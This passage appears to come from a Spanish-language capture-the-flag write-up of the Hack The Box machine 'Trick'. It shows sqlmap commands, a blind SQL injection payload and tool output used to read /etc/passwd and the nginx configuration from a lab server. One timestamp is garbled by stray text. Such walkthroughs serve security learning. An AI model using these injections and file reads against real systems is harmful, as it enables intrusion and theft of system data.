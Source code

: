 ```powershell
[22:25:52] [INFO] resumed: 4702
...
[22:25:52] [INFO] retrieving the length of query output
[22:25:52] [INFO] retrieved: 4
[22:25:57] [INFO] retrieved: 2351
[22:25:5Rust Scan7] [INFO] the local file '/root/.local/share/sqlmap/output/preprod-payroll.trick.htb/files/_etc_passwd' and the remote file '/etc/passwd' have the same size (2351 B)
files saved to [1]:
[*] /root/.local/share/sqlmap/output/preprod-payroll.trick.htb/files/_etc_passwd (same file)

[22:25:57] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/preprod-payroll.trick.htb'

root@loe# cat /root/.local/share/sqlmap/output/preprod-payroll.trick.htb/files/_etc_passwd
...
mysql:x:117:125:MySQL Server,,,:/nonexistent:/bin/false
sshd:x:118:65534::/run/sshd:/usr/sbin/nologin
postfix:x:119:126::/var/spool/postfix:/usr/sbin/nologin
bind:x:120:128::/var/cache/bind:/usr/sbin/nologin
michael:x:1001:1001::/home/michael:/bin/bash
```

dato nuevo tenemos un usuario <i>michael </i> no olvidemos que la Web esta montada con <Anchor src={"https://docs.nginx.com/nginx/admin-guide/web-server/serving-static-content/"}>NGINX </Anchor>
intetaremos leer el archivo de configuracion que tiene este servicio, despues de descargar una copia en burpsuite de la peticion al guardar nuevo empleado.

<img
src="https://res.cloudinary.com/djc1umong/image/upload/v1686608937/trick_burp_employee_anynmy.webp"
alt="trick.htb image"
width={812}
height={321}
/>

```powershell
root@loe# sqlmap -r trick_burp_nginx_FILE.req --batch --dbms mysql --threads 10 --file-read=/etc/nginx/nginx.conf

[00:08:56] [INFO] parsing HTTP request from 'trick_burp_nginx_FILE.req'
[00:09:03] [WARNING] provided value for parameter 'id' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[00:09:03] [WARNING] provided value for parameter 'middlename' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[00:09:03] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (POST)
Type: boolean-based blind
Title: Boolean-based blind - Parameter replace (original value)
Payload: id=(SELECT (CASE WHEN (8198=8198) THEN '' ELSE (SELECT 7639 UNION SELECT 6019) END))&firstname=loe&middlename=&lastname=loelast&department_id=1&position_id=1&salary=2000
---
[00:09:04] [INFO] testing MySQL
[00:09:04] [INFO] confirming MySQL
[00:09:04] [INFO] the back-end DBMS is MySQL
web application technology: Nginx 1.14.2
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[00:09:04] [INFO] fingerprinting the back-end DBMS operating system
[00:09:04] [INFO] the back-end DBMS operating system is Linux
[00:09:04] [INFO] fetching file: '/etc/nginx/nginx.conf'

[00:17:49] [INFO] retrieving the length of query output
[00:17:49] [INFO] retrieved: 4
[00:17:53] [INFO] retrieved: 1482
```